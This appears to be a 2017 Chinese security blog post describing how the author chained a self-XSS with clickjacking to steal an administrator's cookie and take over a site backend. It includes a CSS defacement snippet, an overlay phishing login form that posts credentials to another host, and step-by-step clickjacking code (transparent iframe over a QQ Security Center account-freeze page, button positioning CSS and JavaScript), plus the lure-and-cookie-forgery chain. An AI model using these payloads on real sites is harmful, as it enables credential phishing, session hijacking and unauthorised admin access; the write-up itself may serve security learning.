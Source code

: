 ```yaml
---
layout: post
author: Vulkey_Chen
title: "鸡肋点搭配ClickJacking攻击-获取管理员权限"
date: 2017-12-20
permalink: /archives/2017-12-20/1
description: "笔者挖到了一个selfxss，在思考之后想起了ClickJacking，于是结合之..."
---
```


# 前言

有一段时间没做测试了，偶尔的时候也会去挖挖洞。本文章要写的东西是我利用`ClickJacking`拿下管理员权限的测试过程。但在说明过程之前，先带大家了解一下`ClickJacking`的**基本原理以及简单的漏洞挖掘**。

# ClickJacking

ClickJacking背景说明:

> ClickJacking（点击劫持）是由互联网安全专家罗伯特·汉森和耶利米·格劳斯曼在2008年首创的。
> ClickJacking是一种视觉欺骗攻击手段，在web端就是iframe嵌套一个透明不可见的页面，让用户在不知情(被欺骗)的情况下，点击攻击者想要欺骗用户点击的位置。

说道视觉欺骗，相信有`炫技`经验的朋友们一定会想到，自己一个后台拿不下Webshell权限的时候，而想要黑掉首页从而达到炫技，使用的是什么呢？没错一般使用CSS样式表来劫持首页以造成黑掉的假象~

```html
<table style="left: 0px; top: 0px; position: fixed;z-index: 5000;position:absolute;width:100%;height:300%;background-color: black;"><tbody><tr><td style="color:#FFFFFF;z-index: 6000;vertical-align:top;"><h1>hacked by key</h1></td></tr></tbody></table>
```

![CSS jacking](/images/2017-12-20/0x00.png)

除了可以炫技，CSS劫持可以做的东西也有很多：例如经典的form表单钓鱼攻击

```html
<table+style="left:+0px;+top:+0px;+position:+fixed;z-index:+5000;position:absolute;width:100%;background-color:white;"><tr><td><form action="http://192.168.0.109/login.php" method="post">账号：<input type="text" name="name"><br>密码：<input type="password" name="pwd"><br><input type="submit" value="登陆"></form><td></tr></table>
```

![CSS jacking](/images/2017-12-20/0x01.png)

这里就不对代码的意思进行解读了，可以看到CSS劫持达到的视觉欺骗攻击效果还是比较LOW的，因为这样的攻击手段偏被动式。而我要说的点击劫持其实也算是被动式，不过相对来说比较容易获得信任让被动式触发，这里只是单单对攻击手法谁的成功率比较高作为比较

前面背景介绍的时候说了，点击劫持攻击其实就是镶嵌一个iframe框架(**存在点击劫持漏洞的页面**)在页面上，然后再把其修改为透明的样式。这样的操作只是造成了视觉欺骗，还没达到欺骗点击的效果，所以就需要知道iframe框架其按钮的位置，然后在基于透明层模拟一个位置大小相同的按钮，发给用户让其点击~~

这里以QQ安全中心的一个点击劫持为例，作为一个QQ的资深用户应该知道QQ是有安全中心紧急冻结QQ服务的，只要登录自己的安全中心就可以冻结，**地址(漏洞地址，目前漏洞已经修复)**为：<https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985>

![QQ Click Jacking](/images/2017-12-20/0x02.png)

一点击，你的QQ就被会冻结(当时不知道逗了多少人~)，那这样怎么利用呢？

1.建立iframe框架:

```html
<iframe id="frame" src="https://aq.qq.com/cn2/message_center/wireless/wireless_seal_auth?source_id=2985"></iframe>
```

2.建立iframe的CSS样式:

```css
#frame {
    border: 0px; /*边框属性为0*/
    height: 100%; /*框架高度100%*/
    width: 100%; /*框架宽度100%*/
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
```

3.获取iframe框架引用的原页面的按钮位置和大小:

大小直接通过审查元素可以看得到:

![QQ Click Jacking](/images/2017-12-20/0x03.png)

现在要获取的就是按钮元素到浏览器顶部的距离，这里通过`id.offsetTop`有些时候是无法直接获取的:

> \>\>span_verify.offsetTop
> ←16

获取到的是16~很醉，所以使用如下的方法直接获取:

```javascript
document.getElementById('span_verify').getBoundingClientRect().top
```

![QQ Click Jacking](/images/2017-12-20/0x04.png)
4.建立按钮:

```html
<input type="button" class="button" value="Click" />
```

5.根据第三步骤获取到的建立按钮样式:

```css
.button {
    position: fixed;
    width: 100%;
    height: 42px;
    margin: 0 auto;
    left: 0;
    right: 0;
    display: block;
    top: 278px;
} 
```

6.散播，用户中招:
![QQ Click Jacking](/images/2017-12-20/0x05.png)
![QQ Click Jacking](/images/2017-12-20/0x06.png)

## 一次点击劫持攻击案例

说了这么多，在前几天的测试中我是如何拿到管理员权限呢？挖掘到一处self-xss，这里先说明下self-xss可以理解为只能攻击myself~

发现流程:

**发现输入框->秉着见框就X的原理插入XSS Payload->弹框->发现成功**

然而获取到的URL链接是`/?keyword=<script>alert(1)</script>`，但是不是xss，keyword的值显示在输入框内，需要你再点击`搜索标题按钮`才可以触发漏洞。

**形成的攻击思路->iframe嵌套漏洞URL链接->Click Jacking攻击页面构造->通过留言给管理员引诱触发**

![Click Jacking](/images/2017-12-20/0x07.png)

攻击页面构造流程其实耐心读到这里的朋友已经是非常明确步骤了:

**建立iframe框架->建立iframe框架CSS样式->获取按钮位置大小->建立按钮->建立按钮CSS样式->留言板留言外网攻击链接->获取管理员Cookie->Cookie伪造进入后台**

# 结尾

一次很有意思的实践，让自己满满的成就感，同时也完成了项目任务~
